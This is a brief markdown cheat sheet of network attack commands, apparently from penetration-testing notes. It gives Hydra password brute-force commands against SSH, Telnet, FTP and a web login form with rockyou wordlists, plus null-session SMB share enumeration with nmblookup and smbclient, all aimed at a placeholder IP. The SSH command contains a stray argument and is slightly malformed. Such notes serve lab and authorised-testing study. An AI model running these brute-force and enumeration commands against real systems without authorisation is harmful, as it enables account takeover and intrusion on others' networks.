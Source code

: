 ```yaml
---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---
```


# Network Attacks

## Hydra

### SSH

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /usr/share/seclists/Passwords/rockyou-10.txt
* /usr/share/seclists/Passwords/rockyou-15.txt The above password lists are recommended to run first before the larger rockyou.txt
* /usr/share/ncrack/minimal.usr for users list.

## Windows Shares using Null Sessions

### Shares Enumeration

```text
nmblookup -A 10.10.10.10
```

### List Shares

```text
smbclient -L //10.10.10.10 -N
```
